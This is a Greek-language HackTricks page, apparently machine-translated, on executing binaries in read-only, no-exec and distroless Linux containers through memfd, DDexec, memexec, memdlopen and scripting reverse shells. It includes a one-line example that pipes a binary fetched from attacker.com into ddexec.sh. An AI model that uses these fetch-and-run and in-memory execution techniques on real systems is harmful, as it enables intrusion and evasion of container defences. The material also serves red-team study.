 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Αν σας ενδιαφέρει μια **καριέρα hacking** και να χακάρετε το μη χακαρισμένο - **προσλαμβάνουμε!** (_απαιτείται άριστη γνώση πολωνικών γραπτά και προφορικά_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

Στα παρακάτω βίντεο μπορείτε να βρείτε τις τεχνικές που αναφέρονται σε αυτή τη σελίδα εξηγημένες πιο αναλυτικά:

* [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## read-only / no-exec σενάριο

Είναι όλο και πιο συνηθισμένο να βρίσκουμε μηχανές linux που είναι τοποθετημένες με **προστασία συστήματος αρχείων μόνο για ανάγνωση (ro)**, ειδικά σε κοντέινερ. Αυτό συμβαίνει γιατί η εκτέλεση ενός κοντέινερ με σύστημα αρχείων ro είναι τόσο εύκολη όσο η ρύθμιση του **`readOnlyRootFilesystem: true`** στο `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Ωστόσο, ακόμα και αν το σύστημα αρχείων είναι τοποθετημένο ως ro, το **`/dev/shm`** θα είναι ακόμα εγ writable, οπότε είναι ψευδές ότι δεν μπορούμε να γράψουμε τίποτα στο δίσκο. Ωστόσο, αυτός ο φάκελος θα είναι **τοποθετημένος με προστασία no-exec**, οπότε αν κατεβάσετε ένα δυαδικό αρχείο εδώ **δεν θα μπορείτε να το εκτελέσετε**.

{% hint style="warning" %}
Από την προοπτική μιας κόκκινης ομάδας, αυτό καθιστά **περίπλοκο να κατεβάσετε και να εκτελέσετε** δυαδικά αρχεία που δεν είναι ήδη στο σύστημα (όπως backdoors ή enumerators όπως το `kubectl`).
{% endhint %}

## Ευκολότερη παράκαμψη: Σενάρια

Σημειώστε ότι ανέφερα δυαδικά αρχεία, μπορείτε να **εκτελέσετε οποιοδήποτε σενάριο** αρκεί ο διερμηνέας να είναι μέσα στη μηχανή, όπως ένα **shell script** αν το `sh` είναι παρόν ή ένα **python** **script** αν το `python` είναι εγκατεστημένο.

Ωστόσο, αυτό δεν είναι αρκετό για να εκτελέσετε την πίσω πόρτα σας ή άλλα εργαλεία δυαδικών αρχείων που μπορεί να χρειαστεί να εκτελέσετε.

## Παράκαμψη μνήμης

Αν θέλετε να εκτελέσετε ένα δυαδικό αρχείο αλλά το σύστημα αρχείων δεν το επιτρέπει, ο καλύτερος τρόπος να το κάνετε είναι να **το εκτελέσετε από τη μνήμη**, καθώς οι **προστασίες δεν ισχύουν εκεί**.

### Παράκαμψη FD + exec syscall

Αν έχετε μερικούς ισχυρούς κινητήρες σεναρίων μέσα στη μηχανή, όπως **Python**, **Perl** ή **Ruby**, μπορείτε να κατεβάσετε το δυαδικό αρχείο για να το εκτελέσετε από τη μνήμη, να το αποθηκεύσετε σε έναν περιγραφέα αρχείου μνήμης (`create_memfd` syscall), ο οποίος δεν θα προστατεύεται από αυτές τις προστασίες και στη συνέχεια να καλέσετε μια **`exec` syscall** υποδεικνύοντας τον **fd ως το αρχείο προς εκτέλεση**.

Για αυτό μπορείτε εύκολα να χρησιμοποιήσετε το έργο [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Μπορείτε να του περάσετε ένα δυαδικό αρχείο και θα δημιουργήσει ένα σενάριο στη δηλωμένη γλώσσα με το **δυαδικό αρχείο συμπιεσμένο και b64 κωδικοποιημένο** με τις οδηγίες για **αποκωδικοποίηση και αποσυμπίεση** σε έναν **fd** που δημιουργείται καλώντας την `create_memfd` syscall και μια κλήση στην **exec** syscall για να το εκτελέσετε.

{% hint style="warning" %}
Αυτό δεν λειτουργεί σε άλλες γλώσσες σεναρίων όπως το PHP ή το Node γιατί δεν έχουν καμία **προεπιλεγμένη μέθοδο για να καλέσουν ωμές syscalls** από ένα σενάριο, οπότε δεν είναι δυνατό να καλέσετε την `create_memfd` για να δημιουργήσετε τον **περιγραφέα μνήμης** για να αποθηκεύσετε το δυαδικό αρχείο.

Επιπλέον, η δημιουργία ενός **κανονικού fd** με ένα αρχείο στο `/dev/shm` δεν θα λειτουργήσει, καθώς δεν θα επιτρέπεται να το εκτελέσετε επειδή η **προστασία no-exec** θα ισχύει.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) είναι μια τεχνική που σας επιτρέπει να **τροποποιήσετε τη μνήμη της δικής σας διαδικασίας** αντικαθιστώντας το **`/proc/self/mem`**.

Επομένως, **ελέγχοντας τον κώδικα συναρμολόγησης** που εκτελείται από τη διαδικασία, μπορείτε να γράψετε ένα **shellcode** και να "μεταλλάξετε" τη διαδικασία για να **εκτελέσετε οποιονδήποτε αυθαίρετο κώδικα**.

{% hint style="success" %}
**DDexec / EverythingExec** θα σας επιτρέψει να φορτώσετε και να **εκτελέσετε** το δικό σας **shellcode** ή **οποιοδήποτε δυαδικό** από τη **μνήμη**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Για περισσότερες πληροφορίες σχετικά με αυτή την τεχνική, ελέγξτε το Github ή:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) είναι το φυσικό επόμενο βήμα του DDexec. Είναι ένα **DDexec shellcode demonised**, οπότε κάθε φορά που θέλετε να **τρέξετε ένα διαφορετικό δυαδικό αρχείο**, δεν χρειάζεται να επανεκκινήσετε το DDexec, μπορείτε απλά να τρέξετε το memexec shellcode μέσω της τεχνικής DDexec και στη συνέχεια να **επικοινωνήσετε με αυτόν τον δαίμονα για να περάσετε νέα δυαδικά αρχεία για φόρτωση και εκτέλεση**.

Μπορείτε να βρείτε ένα παράδειγμα για το πώς να χρησιμοποιήσετε **memexec για να εκτελέσετε δυαδικά αρχεία από ένα PHP reverse shell** στο [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Με παρόμοιο σκοπό με το DDexec, η τεχνική [**memdlopen**](https://github.com/arget13/memdlopen) επιτρέπει έναν **ευκολότερο τρόπο φόρτωσης δυαδικών αρχείων** στη μνήμη για να τα εκτελέσετε αργότερα. Θα μπορούσε να επιτρέψει ακόμη και τη φόρτωση δυαδικών αρχείων με εξαρτήσεις.

## Distroless Bypass

### Τι είναι το distroless

Τα distroless containers περιέχουν μόνο τα **απαραίτητα ελάχιστα στοιχεία για να τρέξει μια συγκεκριμένη εφαρμογή ή υπηρεσία**, όπως βιβλιοθήκες και εξαρτήσεις χρόνου εκτέλεσης, αλλά αποκλείουν μεγαλύτερα στοιχεία όπως διαχειριστές πακέτων, shell ή συστήματα βοηθητικών προγραμμάτων.

Ο στόχος των distroless containers είναι να **μειώσει την επιφάνεια επίθεσης των containers εξαλείφοντας περιττά στοιχεία** και ελαχιστοποιώντας τον αριθμό των ευπαθειών που μπορούν να εκμεταλλευτούν.

### Reverse Shell

Σε ένα distroless container μπορεί να **μην βρείτε καν `sh` ή `bash`** για να αποκτήσετε μια κανονική shell. Δεν θα βρείτε επίσης δυαδικά αρχεία όπως `ls`, `whoami`, `id`... όλα όσα συνήθως τρέχετε σε ένα σύστημα.

{% hint style="warning" %}
Επομένως, **δεν θα** μπορείτε να αποκτήσετε μια **reverse shell** ή να **καταγράψετε** το σύστημα όπως συνήθως κάνετε.
{% endhint %}

Ωστόσο, αν το παραβιασμένο container τρέχει για παράδειγμα μια εφαρμογή flask, τότε το python είναι εγκατεστημένο, και επομένως μπορείτε να αποκτήσετε μια **Python reverse shell**. Αν τρέχει node, μπορείτε να αποκτήσετε μια Node rev shell, και το ίδιο με σχεδόν οποιαδήποτε **γλώσσα scripting**.

{% hint style="success" %}
Χρησιμοποιώντας τη γλώσσα scripting μπορείτε να **καταγράψετε το σύστημα** χρησιμοποιώντας τις δυνατότητες της γλώσσας.
{% endhint %}

Αν δεν υπάρχουν **προστασίες `read-only/no-exec`**, μπορείτε να εκμεταλλευτείτε τη reverse shell σας για να **γράψετε στο σύστημα αρχείων τα δυαδικά σας αρχεία** και να τα **εκτελέσετε**.

{% hint style="success" %}
Ωστόσο, σε αυτού του είδους τα containers, αυτές οι προστασίες συνήθως θα υπάρχουν, αλλά μπορείτε να χρησιμοποιήσετε τις **προηγούμενες τεχνικές εκτέλεσης μνήμης για να τις παρακάμψετε**.
{% endhint %}

Μπορείτε να βρείτε **παραδείγματα** για το πώς να **εκμεταλλευτείτε κάποιες ευπάθειες RCE** για να αποκτήσετε reverse shells γλωσσών scripting και να εκτελέσετε δυαδικά αρχεία από τη μνήμη στο [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Αν ενδιαφέρεστε για μια **καριέρα hacking** και να χακάρετε το αχάκτο - **προσλαμβάνουμε!** (_απαιτείται άριστη γνώση πολωνικών γραπτά και προφορικά_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
